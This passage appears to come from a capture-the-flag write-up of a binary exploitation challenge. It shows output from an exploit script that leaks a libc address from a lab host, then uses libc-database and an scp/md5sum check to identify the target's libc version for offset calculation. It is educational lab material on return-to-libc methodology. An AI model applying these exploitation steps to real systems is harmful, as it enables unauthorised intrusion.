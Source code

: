 ```

root@kali# python root_shell.py
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process 'garbage' on 10.10.10.139: pid 1900
[+] Leaked puts address: 0x7fd75a5239c0

```

### Collect Offsets

#### get libc

Since I already have a shell, I can go on box and check libc and get the version and offsets from there. Another alteriative is to use a tool I wanted to highlight, [libc database,](https://github.com/niklasb/libc-database) which is useful for a case where you can get a leak, but perhaps don’t already have a low priv shell to get the libc version.

I know the address of the leak from the previous run. I’ll feed the low three nibbles into the database:

```

root@kali:/opt/libc-database# ./find puts 9c0
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
archive-old-glibc (id libc6_2.3.6-0ubuntu20_i386)

```

It returns two possible libc version. Since I believe this is a x64 host, I’ll use the first one. I can get other offsets from the db, but I can also just download a copy:

```

root@kali:/opt/libc-database# ./download libc6_2.27-3ubuntu1_amd64
Getting libc6_2.27-3ubuntu1_amd64
  -> Location: http://mirrors.kernel.org/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb
  -> Downloading package
  -> Extracting package
  -> Package saved to libs/libc6_2.27-3ubuntu1_amd64

```

I can show it’s the same one as target:

```

root@kali:/opt/libc-database# scp margo@10.10.10.139:/lib/x86_64-linux-gnu/libc.so.6 /tmp/
margo@10.10.10.139's password:
libc.so.6                                        100% 1983KB   1.0MB/s   00:01    

root@kali:/opt/libc-database# md5sum /tmp/libc.so.6 libs/libc6_2.27-3ubuntu1_amd64/libc.so.6
50390b2ae8aaa73c47745040f54e602f  /tmp/libc.so.6
50390b2ae8aaa73c47745040f54e602f  libs/libc6_2.27-3ubuntu1_amd64/libc.so.6

```
